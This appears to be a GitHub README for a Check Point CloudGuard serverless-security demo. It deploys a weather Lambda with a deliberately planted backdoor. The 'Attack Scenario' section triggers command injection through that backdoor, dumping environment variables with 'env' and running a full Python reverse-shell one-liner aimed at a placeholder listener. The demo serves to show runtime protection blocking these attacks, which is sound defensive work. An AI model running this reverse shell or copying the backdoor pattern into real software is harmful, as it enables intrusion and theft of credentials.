








# CG-Weather-App - Cloudguard Workload Demo



Written by Michael Braun

 


<p align="left">
    
</p>    

This document outlines how integrate Cloudguard Workloads with the Serverless framework in a CI/CD pipeline. This function uses the OpenWeatherMap API to return temperature values. <b> This demo simulates a compromised supply chain where a back door has been inserted into the function.</b>



This function is deployed through Github Actions. During the deployment, the function is scanned by Proact. Proact will examine the function and alert if there are any issues with the configuration. <br>

Function Self Protect (FSP) is also deployed in this demo. This provides runtime protection. There are two engines that work with FSP, a signature based engine, and a behavior based engine. 

<b> Get started by forking this repository! </b>

## Prerequisites

In order to run this demo, you need the following:

[Github Account](https://github.com) <br>
[AWS Account](https://aws.amazon.com) with API keys <br>
[Check Point Cloud Security Posture Management Account](https://dome9.com/) with API keys<br>

### Weather API Key
Go to [OpenWeatherMap](https://https://openweathermap.org/api) and:<br>
    - Create an account<br>
    - Open your profile & generate an API key<br>


## Check Point CSPM Onboarding 

For this demo to work, you need to have your AWS account onboarded to Check Point CSPM. <b> Serverless Protection needs to be enabled. </b> The build will fail if these two requirements are not met. <br><br>

I've written an onboarding script to simplify this process. You must have AWS and CSPM API keys to run the script. Clone your repository and navigate to the scripts directory. Install the requirements.

```
pip install -r requirements.txt
```

Then run onboard.py. There are two options: <br>

1. Onboard AWS Account and Enable Serverless<br>

    - This will onboard an AWS account and enable serverless. Select this options if you have not already onboarded your AWS account.<br>
    
2. Enable Serverless on AWS Account <br>
    
    - This will enable Serverless Protection on an existing AWS account.<br> 


here is the sample output:

```
λ python onboard.py
Dome9 API Key: <enter API key here>
Dome9 Secret Key: <enter API Secret here>
AWS Access Key: <enter API key here>
AWS Secret Key: <enter API Secret here>
Select option:


        1. Onboard AWS Account and Enable Serverless
        2. Enable Serverless on AWS Account

Select a task number: 1
Friendly name of AWS account for Dome9: 
working . . .
Added Sucessfully
Serverless Protection Stage 1 Complete
Starting Stage 2. This will take some time.
Serverless Protection Stage 2 Complete.
Cloudguard ID: 
Finished!
```
## Prep the Github Environment

First go to Settings > Secrets and populate the secrets: <br>



AWS_ACCESS_KEY_ID<br>
AWS_SECRET_ACCESS_KEY<br>
CG_TOKEN - <b>Note: This must be in the format CSPM_API_KEY:CSPM_API_SECRET</b> <br>

Second, select the "Actions" tab and enable workflows.

## Run the Build

To deploy this function to AWS, create or change a file called <b>_build_flag</b>. Commit and push the changes.

This kicks off the Github Action. This will deploy the function. Once the build is finished, you will then see it in Check Point CSPM<br>



Expand the "Deploy to AWS" tab and scroll to the bottom. You will see the Proact scan. Also, the results of the scan have been uploaded as artifacts. <b>Note the API gateway address.</b> This will be used for testing.<br>


### Sync to Check Point CSPM

Depending on when you build your function in relation to the sync interval it may take some time for the information to appear. If you would like to force this synchronization, you can run the following command: <br><br>

```
curl -X POST https://api.dome9.com/v2/cloudaccounts/<CLOUDGUARD_ACCOUNT_ID/SyncNow  --basic -u DOME9_API_KEY:DOME_API_SECRET  -H 'Accept: application/json'
```

## Enabling FSP
Navigate to the asset within CSPM.<br> 

To enable FSP, you must turn on "Auto-Protect" & "Block on Detect"


Once this is turned on, you must then redeploy the function. This can be done by rerunning the deployment pipeline. Do this by modifying the <b>_build_flag</b> and committing the changes.

## Provisioning the FSP

In order for the function to be fully protected, the learning process must complete. This takes aproximately 3000 invocations. I have included a script that will perform this process. Ensure you enter real information as the function must be profiled with real activity. <br>

In the scripts directory, run profile.py. <br> 

Target: Input the api gateway address that you noted earlier. <br>
City: Enter any real city. <br>
API Key: Input your Api Key<br> 

Here is what it looks like:

```
λ .\profile.py
Weather App - Lambda Function
Target: <insert-api-gateway-here>
City: Kelowna
API Key: <api-key-here>
Working
.
.
```
Keep an eye on the serverless asset in CSPM and you will see the behavioral finish learning. Once this is done, you can kill the profile script.

## Legitimate use of CG-Weather-App

To use the function in a non-malicous way, navigate to the scripts directory and run activity.py. Here is an example of normal operation:

```
λ .\activity.py
Weather App - Lambda Function
Target: <insert-api-gateway-here>
City: Kelowna
API Key: <api-key-here>
"The current temperature in Kelowna is -1.57 degrees, but it feels like -8.94 degrees"
```

## Attack Scenario

In this example, we will assume that the supply chain has been compromised and that malicious code was added to an existing function. We will also assume that the FSP has learned the correct behavior of the function. <br> 


### Env Command Injection
To exploit the backdoor, enter the command you'd like to run in the ```City``` field and the word "backdoor" in the ```API Key``` field. <br>

In this example, the attacker is running  ```env``` against the function. 

```
λ .\activity.py
Weather App - Lambda Function
Target: <insert-api-gateway-here>
City: env
API Key: backdoor
""
```

If the behavioral protection was not enabled, this would have returned the environment variables. However, as you can see, the output is ```""```. You will also see a corresponding alert in the Threat&Events Tab. <br>



### Reverse Shell Command Injection

For a more malicious script, you can try to run a reverse shell.<br>

Here is the command to insert:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ENTER_YOUR_LISTENING_IP_HERE",<ENTER_PORT_TO_SEND_SHELL));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

It will look like this in the command:

```
λ .\activity.py
Weather App - Lambda Function
Target: <insert-api-gateway-here>
City: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ENTER_YOUR_LISTENING_IP_HERE",<ENTER_PORT_TO_SEND_SHELL));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
API Key: backdoor
""
```

Here is the corresponding alert:



## Cleanup

To remove this function, create or modify a file call <b>_build_flag</b>. This will run the destroy pipeline and cleanup the entire deployment.